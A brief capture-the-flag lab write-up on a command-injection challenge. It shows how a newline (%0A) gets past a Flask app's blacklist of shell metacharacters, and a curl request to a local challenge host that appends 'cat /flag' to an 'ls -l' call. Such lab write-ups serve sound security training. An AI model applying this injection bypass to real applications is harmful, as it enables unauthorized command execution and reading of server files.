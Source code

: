 # CMDi 6

```shell
cat /challenge/server
```

The Flask app takes a path as query param (`/exercise?subdirectory`) and executes `ls -l {subdirectory}` \
Problem: The special characters **; & | > < ( ) ` $** all are blocked \

We know that _newline_ can also be used as a command separator.

Executing:

```shell
ls -l .
cat /flag
```

Start the server and use curl:

```shell
curl http://challenge.localhost:80/exercise?subdirectory=.%0Acat%20/flag
```
